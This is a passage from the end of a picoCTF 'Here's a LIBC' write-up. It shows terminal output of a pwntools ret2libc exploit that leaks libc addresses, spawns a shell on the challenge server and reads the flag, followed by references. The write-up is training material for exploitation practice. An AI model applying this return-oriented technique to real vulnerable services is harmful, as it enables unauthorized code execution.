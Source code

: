 ```python
io.interactive()
```

Now it's time to try the exploit on the remote system
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Binary_Exploitation/Heres_a_LIBC]
└─$ ~/python_venvs/pwntools/bin/python exploit.py
[+] Starting local process '/mnt/hgfs/CTFs/picoCTF/picoCTF_2021/Binary_Exploitation/Heres_a_LIBC/vuln_patched': pid 83467
[*] Process '/mnt/hgfs/CTFs/picoCTF/picoCTF_2021/Binary_Exploitation/Heres_a_LIBC/vuln_patched' stopped with exit code -11 (SIGSEGV) (pid 83467)
[+] Parsing corefile...: Done
[*] '/mnt/hgfs/CTFs/picoCTF/picoCTF_2021/Binary_Exploitation/Heres_a_LIBC/core.83467'
    Arch:      amd64-64-little
    RIP:       0x400770
    RSP:       0x7ffcdd40e398
    Exe:       '/mnt/hgfs/CTFs/picoCTF/picoCTF_2021/Binary_Exploitation/Heres_a_LIBC/vuln_patched' (0x400000)
    Fault:     0x6261616b6261616a
[*] 4-byte pattern is: jaab
[*] Offset is: 136
[+] Opening connection to mercury.picoctf.net on port 24159: Done
[*] Leaked GOT puts address: 0x7f47314dea30
[*] Libc base address: 0x7f473145e000
[*] System address: 0x7f47314ad4e0
[*] /bin/sh address: 0x7f47316120fa
[*] Switching to interactive mode
$ hostname
challenge-server-mercury
$ whoami
here-s-a-libc_5
$ ls
flag.txt
libc.so.6
vuln
vuln.c
xinet_startup.sh
$ cat flag.txt
picoCTF{<REDACTED>}$ 
$ 
[*] Interrupted
[*] Closed connection to mercury.picoctf.net port 24159
```

And there we have the flag.

For additional information, please see the references below.

## References

- [Wikipedia - NX bit](https://en.wikipedia.org/wiki/NX_bit)
- [Wikipedia - Return-oriented programming](https://en.wikipedia.org/wiki/Return-oriented_programming)
- [Wikipedia - de Bruijn sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence)
- [Wikipedia - Global Offset Table](https://en.wikipedia.org/wiki/Global_Offset_Table)
- [Ghidra](https://ghidra-sre.org/)
- [pwninit](https://github.com/io12/pwninit)
- [pwntools](https://docs.pwntools.com/en/stable/index.html)
- [Ropper](https://github.com/sashs/Ropper)
